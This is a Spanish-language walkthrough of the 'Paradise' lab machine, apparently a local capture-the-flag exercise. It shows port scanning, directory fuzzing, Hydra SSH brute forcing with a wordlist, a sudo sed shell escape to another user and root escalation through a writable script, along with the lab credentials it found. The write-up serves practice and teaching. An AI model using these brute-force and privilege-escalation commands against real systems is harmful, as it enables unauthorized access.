


# Informe de Pentesting - Máquina Paradise

* **Nombre de la máquina:** Paradise
* **Nivel de dificultad:** Fácil
* **Propósito:** Práctica de técnicas básicas de reconocimiento, enumeración, decodificación, ataque por fuerza bruta y escalada de privilegios en un entorno controlado.

---

## 1. Despliegue de la Máquina

Descargamos el archivo comprimido `paradise.zip` y lo descomprimimos con:

```bash
unzip paradise.zip
```

Posteriormente, se despliega la máquina con el siguiente script:

```bash
sudo bash auto_deploy.sh paradise.tar
```


Confirmamos que la máquina está activa con un `ping` a la dirección IP:

```bash
ping -c 4 172.17.0.2
```


---

## 2. Reconocimiento de Puertos

Realizamos un escaneo completo de puertos para identificar cuáles están abiertos en la máquina:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```


Usamos nuestro script personalizado `extractPorts` para extraer los puertos relevantes y luego analizamos los servicios corriendo en ellos:

```bash
nmap -sC -sV -p 22,80,139,445 172.17.0.2 -oN target.txt
```


---

## 3. Enumeración Web

Al acceder al navegador, encontramos una página web que sirve como punto de entrada:


Realizamos *fuzzing* con **Gobuster** para encontrar directorios ocultos:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x .php,.html,.txt
```


Estos fueron los directorios y archivos detectados:

* `/index.html`
  

* `/img`
  

* `/login.php`
  

* `/galery.html`
  

* `/booking.html`
  

---

## 4. Análisis del Código Fuente

Al revisar el código fuente de la página, encontramos un mensaje en Base64:

```text
ZXN0b2VzdW5zZWNyZXRvCg==
```


Lo decodificamos en Bash:

```bash
echo "ZXN0b2VzdW5zZWNyZXRvCg==" | base64 --decode
```

El resultado fue:

```text
estoesunsecreto
```


Probamos si esta cadena correspondía a una ruta y descubrimos un nuevo directorio oculto:

```text
http://172.17.0.2/estoesunsecreto/
```


Dentro había un archivo `.txt` con un mensaje que indicaba que se debía cambiar la contraseña por ser débil. También se menciona el nombre del usuario **lucas**, lo que sugiere que podría ser un usuario válido en el sistema.



---

## 5. Fuerza Bruta con Hydra

Probamos con fuerza bruta utilizando **Hydra** para intentar acceder vía SSH como el usuario *lucas*.

```bash
hydra -l lucas -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

Encontramos la contraseña:

```text
lucas : chocolate
```


---

## 6. Escalada de Privilegios a Usuario Andy

Una vez dentro como lucas vía SSH:

```bash
ssh lucas@172.17.0.2
```


Descubrimos que lucas puede ejecutar el comando `/bin/sed` como el usuario andy sin necesidad de contraseña (NOPASSWD):

```bash
sudo -l
```

Aprovechamos esto para escalar privilegios a andy:

```bash
sudo -u andy /bin/sed -n '1e exec /bin/bash' /etc/hosts
```


---

## 7. Escalada de Privilegios a Root

Buscamos archivos que sean modificables por andy y que puedan ser ejecutados con privilegios de root:

```bash
find / -writable -user andy 2>/dev/null
```

Encontramos el script: `/usr/local/bin/privileged_exec`

Lo editamos y luego lo ejecutamos, lo que nos otorgó acceso como root.


---

## 8. Conclusión

Esta máquina nos permitió practicar técnicas esenciales como:

* Escaneo y enumeración de servicios.
* Fuzzing de directorios.
* Decodificación de información oculta.
* Ataques por fuerza bruta.
* Escalada de privilegios con uso de binarios vulnerables y análisis de permisos.
